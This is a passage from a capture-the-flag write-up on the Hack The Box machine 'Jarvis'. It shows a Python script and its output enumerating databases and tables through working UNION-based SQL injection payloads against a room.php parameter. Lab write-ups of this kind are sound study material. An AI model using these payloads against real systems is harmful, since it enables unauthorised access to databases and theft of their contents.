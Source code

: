 ```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:00:59(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 0-- -
[+] Payload result: hotel
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 1-- -
[+] Payload result: information_schema
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 2-- -
[+] Payload result: mysql
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 3-- -
[+] Payload result: performance_schema
[*] Payload: 7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET 4-- -
[-] No result :(
[-] Exploit failed... Abort!!
```

- Database names: `hotel`, `information_schema`, `mysql`, `performance_schema`

Except for database `hotel`, everything else is default.

**Enumerate table names in database `hotel`:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='hotel' LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:01:41(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='hotel' LIMIT 1 OFFSET 0-- -
[+] Payload result: room
[*] Payload: 7 UNION ALL SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='hotel' LIMIT 1 OFFSET 1-- -
[-] No result :(
[-] Exploit failed... Abort!!
```

- Database `hotel` table names: `room`
